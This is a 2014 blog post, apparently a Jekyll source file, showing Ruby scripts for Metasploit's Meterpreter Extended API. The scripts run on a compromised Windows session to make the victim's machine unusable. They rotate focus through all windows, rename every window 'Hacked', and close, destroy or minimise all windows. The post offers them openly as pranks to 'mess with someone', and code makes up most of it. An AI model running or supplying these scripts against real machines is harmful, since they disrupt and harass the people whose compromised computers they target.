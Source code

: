 ---
layout: post
title: "ExtAPI Pranks"
date: 2014-01-10 01:21:45 -0500
comments: true
categories: 
---

Since I've been gone, OJ has released the ExtAPI (Extended API) for Meterpreter. This has some pretty amazing functionality. You can find [OJ](https://twitter.com/TheColonial)'s write up on it and more amazing things he did in [3 months of meterpreter](http://buffered.io/posts/3-months-of-meterpreter/) and on the [Metasploit blog](https://community.rapid7.com/community/metasploit/blog/2013/12/12/weekly-metasploit-update).

Just brushing the surface and to help people see the power of this new functionality I went ahead and created a few Meterpreter scripts that can really mess with someone.

1st is a script that loops through all of the windows for your current user and sets the focus to them in rotation. Essentially making their machine unusable.

* Source: https://gist.github.com/mubix/8050500
```ruby
# Code loops around each of the windows
# that the current user has open and switches
# focus to each of them in rotation... 100 times.
 
(0..100).each do |x|
	windows = client.extapi.window.enumerate
	windows.each do |winder|
		if winder[:title] != 'Default IME'
			result = client.railgun.user32.SetForegroundWindow(winder[:handle])
		end
	end
	print_status("Round #{x}")
end
```

2nd just sets all of the windows title's the say "hacked"

* Source: https://gist.github.com/mubix/8050592
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
  if winder[:title] != 'Default IME'
    result = client.railgun.user32.SetWindowTextA(winder[:handle],"Hacked")
  end
end
```

and finally if in Windows if you close all of the windows, including "invisible" ones like Explorer, you will essentially make the machine unusable.

* Source: https://gist.github.com/mubix/8050653
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
	result = client.railgun.user32.CloseWindow(winder[:handle])
end
```

OJ suggested a few other options:

Destroy:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.DestroyWindow(winder[:handle])
end
```

or Minimize all:
```ruby
windows = client.extapi.window.enumerate
windows.each do |winder|
    result = client.railgun.user32.ShowWindow(winder[:handle], 6)
end
```

Thats it for now, next up we will do a few things with services as well as the clipboard. Stay tuned!